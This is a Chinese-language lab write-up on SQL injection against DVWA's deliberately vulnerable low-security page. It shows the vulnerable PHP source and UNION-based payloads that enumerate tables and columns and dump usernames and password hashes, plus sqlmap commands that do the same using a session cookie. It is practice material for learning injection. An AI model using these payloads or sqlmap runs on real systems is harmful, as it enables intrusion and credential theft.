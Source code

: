 ```yaml
---
title: "dvwa-sql-显注-low"
date: 2020-04-15 17:38:31
categories: sql
tags: 
- sql
---
```


# dvwa-sql-显注-low

> 就拿dvwa学习一下sql的手工注入,以及sqlmap的使用
>
> 做些笔记

## tip

1. concat_ws(1,2,3): 使用1作为连接符,连接2和3

   方便从一个显示位,显示多种内容

2. char(32,58,32): char将其中的ascii值转成字符

   这里是空格冒号空格

   作为concat_ws使用,比较美观

## low

源码

```php
<?php
if( isset( $_REQUEST[ 'Submit' ] ) ) {
    // Get input
    $id = $_REQUEST[ 'id' ];

    // Check database
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    // Get results
    while( $row = mysqli_fetch_assoc( $result ) ) {
        // Get values
        $first = $row["first_name"];
        $last  = $row["last_name"];

        // Feedback for end user
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";
    }

    mysqli_close($GLOBALS["___mysqli_ston"]);
}
?>
```



### 手工注入

1. 输入`'`,发现有报错,说明很可能有sql注入

2. `1' order by 2#`猜解列数

   order by后面加数字时,表示按第几列进行排序

   如果没有那列的话,就会报错

   该步的目的,是为了使用union select

   因为union select 要求两者的列数相同,才能进行查询

   ![Snipaste_2020-04-15_10-48-47](Snipaste_2020-04-15_10-48-47.png)

   ![Snipaste_2020-04-15_10-48-55](Snipaste_2020-04-15_10-48-55.png)

3. `1' union select 1,2#`爆显示位

   从输入中,可以发现,两个都能显示出来

   也就是说,每次可以查询两个地方

   ![Snipaste_2020-04-15_10-51-10](Snipaste_2020-04-15_10-51-10.png)

4. `1' union select version(),database()#`

   查询一下sql版本和当前数据库名称

   sql版本很重要,因为版本>(多少我忘了><)时,会有一个`information_schema`数据库,里面有好多好多好东西

   ![Snipaste_2020-04-15_10-47-58](Snipaste_2020-04-15_10-47-58.png)

   `1' union select null,concat_ws(char(32,58,32),user(),database(),version())#`

   另一种方法,会在第二个显示位一起爆出用户、数据库及其版本信息

   ![Snipaste_2020-04-15_16-23-32](Snipaste_2020-04-15_16-23-32.png)

5. `1' union select null,group_concat(table_name) from information_schema.tables where table_schema='dvwa' #`

   版本比较大,所以有`information_schema`;得知数据库名后,就可以查表了

   ![Snipaste_2020-04-15_16-27-26](Snipaste_2020-04-15_16-27-26.png)

   可以看出dvwa中有两个表`guestbook`and`users`

   明显users重要点,所以下一步查users的列

6. `1' union select null,group_concat(column_name) from information_schema.columns where table_schema='dvwa' and table_name='users' #`

   ![Snipaste_2020-04-15_16-38-54](Snipaste_2020-04-15_16-38-54.png)

   其中`user`和`password`看起来比较重要

7. `1' union select null, group_concat(concat_ws(char(32,58,32),user,password)) from users #`

   ![Snipaste_2020-04-15_16-43-02](Snipaste_2020-04-15_16-43-02.png)

8. 如果不想显示在一条上,而是分开查询的话,把group_concat删了就行

   - 查表

     `1' union select null,table_name from information_schema.tables where table_schema='dvwa' #`

     ![Snipaste_2020-04-15_16-46-11](Snipaste_2020-04-15_16-46-11.png)

   - 查列

     `1' union select null,column_name from information_schema.columns where table_schema='dvwa' and table_name='users' #`

     ![Snipaste_2020-04-15_16-46-27](Snipaste_2020-04-15_16-46-27.png)

   - 查内容

     `1' union select null, concat_ws(char(32,58,32),user,password) from users #`

     ![Snipaste_2020-04-15_16-46-37](Snipaste_2020-04-15_16-46-37.png)



### sqlmap

1. 准备好网址

   在id中输入1,是的url中包含参数名称

   ```
   http://localhost/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit#
   ```

2. 准备好cookie

   ```
   security=low; PHPSESSID=9v0e6li5s4iok70h3fi7al0gv1
   ```

3. 打开sqlmap,输入

   ```
   python sqlmap.py -u "http://localhost/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=9v0e6li5s4iok70h3fi7al0gv1" --batch
   ```

   康康有没有sql注入

   - -u参数指定目标URL
   - --batch参数采用默认选项,不进行询问
   - --cookie参数指定cookie

   可以看到是存在注入的

   ![Snipaste_2020-04-15_17-13-57](Snipaste_2020-04-15_17-13-57.png)

4. 查看所有的数据库

   ```
   python sqlmap.py -u "http://localhost/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=9v0e6li5s4iok70h3fi7al0gv1" --batch --dbs
   ```

   - --dbs所有数据库

   ![Snipaste_2020-04-15_17-15-16](Snipaste_2020-04-15_17-15-16.png)

5. 所以我们要用的应该是dvwa那个库,然后康康里面有什么表

   ```
   python sqlmap.py -u "http://localhost/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=9v0e6li5s4iok70h3fi7al0gv1" --batch -D dvwa --tables
   ```

   - -D参数指定为dvwa数据库
   - --tables参数查看所有的表

   ![image-20200415171817802](image-20200415171817802.png)

6. 查看users表中的列

   ```
   python sqlmap.py -u "http://localhost/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=9v0e6li5s4iok70h3fi7al0gv1" --batch -D dvwa -T users --columns
   ```

   - -T参数指定表为users
   - --columns查看该表的所有列

   ![image-20200415172014493](image-20200415172014493.png)

7. 最后看看整个表中都有什么

   ```
   python sqlmap.py -u "http://localhost/DVWA-master/vulnerabilities/sqli/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=9v0e6li5s4iok70h3fi7al0gv1" --batch -D dvwa -T users --dump
   ```

   - --dump参数将所有列的信息都列出来

   ![image-20200415172329770](image-20200415172329770.png)



